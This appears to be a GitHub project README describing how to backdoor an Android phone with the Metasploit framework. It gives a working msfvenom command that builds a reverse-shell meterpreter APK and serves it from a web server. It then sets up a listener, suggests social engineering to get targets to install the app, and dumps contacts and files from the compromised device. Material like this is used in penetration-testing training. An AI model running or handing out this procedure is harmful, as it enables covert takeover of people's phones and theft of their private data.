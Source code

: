 # Hacking-Android-devices-using-Metasploit-Framework
Android hacking made easy with Metasploit framework - my project on exploiting vulnerabilities for penetration testing and ethical hacking.

## Introduction

A backdoor is any route by which someone can circumvent normal security measures to access a system. Pieces of software often come with backdoors built into their code so that engineers and developers can bypass their own defenses to fix problems for their users. Backdoor attacks involve cybercriminals using these entry points to gain unauthorized access to data and systems. These incidents often go undetected, at least at first, because the hackers didn’t have to disrupt or brute force their way through any of the cybersecurity systems. Once they’ve got remote access to a network or device, a bad actor can install malware, engage in data theft, and spy on user activity.

Backdoor attacks can be extremely dangerous because they often involve hackers gaining an extremely high level of access and privileges within a system or network. If they can do this without being detected, they can then squat there for months, monitoring user activity.
An exploit is a code that takes advantage of a software vulnerability or security flaw. It is written either by security researchers as a proof-of-concept threat or by malicious actors for use in their operations. When used, exploits allow an intruder to remotely access a network and gain elevated privileges, or move deeper into the network. In some cases, an exploit can be used as part of a multi-component attack. Instead of using a malicious file, the exploit may instead drop another malware, which can include backdoor Trojans and spyware that can steal user information from the infected systems.

## Features of Metasploit Framework:

The Metasploit framework is a very powerful tool which can be used by cybercriminals as well as ethical hackers to probe systematic vulnerabilities on networks and servers. Because it’s an open-source framework, it can be easily customized and used with most operating systems.

Due to its wide range of applications and open-source availability, Metasploit is used by everyone from the evolving field of DevSecOps pros to hackers. It’s helpful to anyone who needs an easy to install, reliable tool that gets the job done regardless of which platform or language is used. The software is popular with hackers and widely available, which reinforces the need for security professionals to become familiar with the framework even if they don’t use it.

1.	Exploit: Tool used to take advantage of system weaknesses.
2.	Payloads: Sets of Malicious code.
3.	Auxiliary functions: Supplementary tools and commands
4.	Encoders: Used to convert code to information
5.	Listeners: Malicious software that hides in order to gain access
6.	Shellcode: Code that is programmed to activate once inside the target.
7.	Post-exploitation code: Helps test deeper penetration once inside
8.	Nops: An instruction to keep the payload from crashing. 

IMPLEMENTATION:


1.	Generating a Payload with msfvenom
Start Kali Linux so that we may generate an apk file as a malicious payload. We need to check our local IP that turns out to be ‘192.168.0.112’. You can also hack an Android device through Internet by using your Public/External IP in the LHOST and by port forwarding.
 
 ![image](https://user-images.githubusercontent.com/81562207/229279048-8c5be979-a8ca-4f33-8755-44de904783ae.png)

After getting your Local host IP use msfvenom tool that will generate a payload to penetrate the Android device. Type command:
#msfvenom –p android/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=4444 R> /var/www/html/ehacking.apk
Where:
-p indicates a payload type
android/metepreter/reverse_tcp specifies a reverse meterpreter shell would come in from a target Android device
LHOST is your local IP
LPORT is set to be as a listening port
R> /var/www/html would give the output directly on apache server
apk is the final name of the final output


2.	Launching an Attack
Before launching attack, we need to check the status of the apache server. Type command:
#service apache2 status
 
![image](https://user-images.githubusercontent.com/81562207/229279152-6b342062-523d-465a-830b-a9df37590b99.png)


All seems set, now type msfconsole. Use multi/handler exploit, set payload the same as generated prevoisly, set LHOST and LPORT values same as used in payload and finally type exploit to launch an attack.

![image](https://user-images.githubusercontent.com/81562207/229279200-5c74b081-2753-429c-9b2a-33892ecd2960.png)
 
In real life scenarios, some social engineering techniques can be used to let the target download the malicious apk file. For demonstration we are just accessing the attacker machine to download the file in the Android device. After downloading it successfully, select the app to install.

![image](https://user-images.githubusercontent.com/81562207/229279271-af872994-d2c1-42e3-9a75-51ab02caf6d2.png)

Once the user installs the application and runs it, the meterepreter session would be opened immediatly at the attacking side.

![image](https://user-images.githubusercontent.com/81562207/229279465-8336c901-4c06-47ff-a8a7-7105a96e3a52.png)


3.	Post Exploitation
Type “background” and then “sessions” to list down all the sessions from where you can see all the IPs connected to the machine. 

![image](https://user-images.githubusercontent.com/81562207/229279529-ca376327-0434-43b2-b1a4-19c526f87584.png)
 
You can interact with any session by typing sessions -i [session ID]. After entering the session, type “help” to list down all the commands we can put forward in this session. You can see some file system commands that are helpful when you’re trying to go after some sensitive information or data. By using these, you can easily download or upload any file or information.

![image](https://user-images.githubusercontent.com/81562207/229279569-43fff339-2ee2-4fd5-85dd-f54731ad92d6.png)

![image](https://user-images.githubusercontent.com/81562207/229279600-a1140b0c-3768-4558-83cd-5ab04dac5b73.png)



4.	Extracting Contacts from an Android Device
Now let extract some contacts from the target device by typing “dump” and double tab.
 
![image](https://user-images.githubusercontent.com/81562207/229279667-bdb86f44-283a-4077-8daf-a59b1254f5b3.png)

It will extract all the contacts from the Android device and will save it in our local directory. To see this file type “ls” and “cat [file_name]”.

![image](https://user-images.githubusercontent.com/81562207/229279728-aa4eb4fb-3a0a-409e-a945-c862d4cf5a44.png)

## Conclusion

In conclusion, securing Android devices is crucial to prevent unauthorized access and exploitation. Hackers can potentially take advantage of vulnerabilities and create backdoors in these devices, which can compromise user data and privacy. By implementing proper security measures, such as updating the device software, using strong passwords, and limiting app permissions, users can significantly reduce the risk of being targeted by malicious actors. It is important to prioritize device security and stay informed about potential threats to keep personal and sensitive information safe.
